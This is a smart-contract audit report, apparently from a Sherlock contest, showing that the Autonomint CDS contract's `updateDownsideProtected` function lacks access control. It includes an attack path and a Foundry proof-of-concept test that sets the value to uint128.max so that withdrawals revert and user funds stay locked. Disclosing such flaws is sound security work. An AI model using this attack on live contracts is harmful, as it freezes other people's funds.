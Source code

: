 Muscular Orchid Cyborg

High

# CDS::updateDownsideProtected has no access controls and will permanently lock user funds

### Summary

`CDS::updateDownsideProtected` has no access controls and subtractions are done in both deposit and withdraw functions, so anyone can set downsideProtected to uint128.max and lock funds after users deposit in CDS. `CDS::_updateCurrentTotalCdsDepositedAmount` is called in both deposit and withdraw functions, and totalCdsDepositedAmount - downsideProtected will always revert in underflow since downsideProtected is set to uint128.max, this calculation happens in the `_updateCurrentTotalCdsDepositedAmount` function.

[CDS::updateDownsideProtected](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L829)

[CDS::_updateCurrentTotalCdsDepositedAmount](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L833)

### Root Cause

`CDS::updateDownsideProtected` has no access controls, so anyone can update downsideProtected.

### Internal pre-conditions

- User updates downsideProtected to uint128.max
- User deposits in CDS
- User withdraws from CDS

### External pre-conditions

None

### Attack Path

1. Users deposit in CDS
2. Malicious actor updates downsideProtected to uint128.max
3. Users attempt to withdraw from CDS
4. Withdrawals revert in underflow because of `_updateCurrentTotalCdsDepositedAmount` and since downsideProtected is set to uint128.max
5. Users funds are locked in CDS

### Impact

User funds will be locked in CDS since withdrawals will always revert in underflow.

### PoC

- Insert the PoC in `borrowing.t.sol`
- Run the test with `forge test --fork-url http://127.0.0.1:8545 --mt testUserCanChangeDownsideProtectedAndPermanentlyLockFunds -vvvv`

```javascript
function testUserCanChangeDownsideProtectedAndPermanentlyLockFunds() public {
        // User deposits USDT in CDS
        vm.startPrank(USER);
        contractsA.usdt.mint(address(USER),5000000000);
        uint256 usdtBalance = contractsA.usdt.balanceOf(address(USER));
        contractsA.usdt.approve(address(contractsA.cds),usdtBalance);
        contractsA.cds.deposit{value: globalFee.nativeFee}(uint128(usdtBalance),0,true,uint128(usdtBalance), ETH_PRICE);

        // Malicious actor changes downsideProtected to max
        vm.startPrank(USER);
        contractsA.cds.updateDownsideProtected(type(uint128).max);
        vm.stopPrank();

        // User tries to withdraw USDT deposited in CDS
        vm.startPrank(USER);
        vm.expectRevert(); // will underflow since downsideProtected is set to max
        contractsA.cds.withdraw{value: globalFee3.nativeFee}(1,1000e3,0,1,"0x");
        vm.stopPrank();
    }
```

### Mitigation

- Add onlyAdmin modifier to `CDS::updateDownsideProtected`

```diff
+   function updateDownsideProtected(uint128 downsideProtectedAmount) external onlyAdmin {
        downsideProtected += downsideProtectedAmount;
    }
```